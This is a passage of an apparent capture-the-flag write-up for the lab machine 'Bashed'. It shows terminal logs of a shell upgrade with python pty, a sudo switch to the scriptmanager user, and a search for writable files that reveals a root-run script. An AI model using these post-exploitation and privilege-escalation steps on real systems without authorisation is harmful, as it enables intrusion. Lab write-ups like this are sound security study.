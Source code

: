 ```
www-data@bashed:/home/arrexel$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<el$ python3 -c 'import pty; pty.spawn("/bin/bash")'                         
www-data@bashed:/home/arrexel$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:~$ 
```

## Enumeration as "scriptmanager"

Let's search for files owned by this user:

```
scriptmanager@bashed:~$ find / -path /proc -prune -o -user scriptmanager 2>/dev/null
<d / -path /proc -prune -o -user scriptmanager 2>/dev/null                   
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
/home/scriptmanager/linpeas.sh
/home/scriptmanager/.gnupg
/home/scriptmanager/.gnupg/trustdb.gpg
/home/scriptmanager/.gnupg/pubring.gpg
/home/scriptmanager/.gnupg/gpg.conf
/proc
scriptmanager@bashed:~$ 
```

There is a "/scripts" directory in root, with a python script in it. Let's check it out:

```
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 25 06:57 test.txt
scriptmanager@bashed:/scripts$ date
date
Thu Nov 25 06:57:49 PST 2021
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 25 06:57 test.txt
scriptmanager@bashed:/scripts$ date
date
Thu Nov 25 06:58:04 PST 2021
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
```